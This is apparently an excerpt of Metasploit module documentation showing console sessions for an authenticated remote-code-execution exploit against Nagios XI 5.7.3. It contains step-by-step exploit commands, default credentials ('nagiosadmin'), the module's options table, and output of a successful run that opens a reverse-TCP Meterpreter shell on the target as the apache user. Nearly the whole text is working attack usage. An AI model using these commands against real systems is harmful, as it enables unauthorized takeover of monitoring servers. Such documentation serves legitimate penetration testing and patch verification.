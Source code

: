 ```
   0   Linux (x86/x64)


msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Sending stage (980808 bytes) to 192.168.1.16
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.16:55158) at 2021-04-01 13:18:20 -0400

meterpreter > getuid
Server username: apache @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
```
### Nagios XI 5.7.3 running on CentOS 7 - CMD target
```
msf6 > use exploit/linux/http/nagios_xi_mibs_authenticated_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set lhost 192.168.1.12
lhost => 192.168.1.12
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set target 1
target => 1
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_mibs_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


```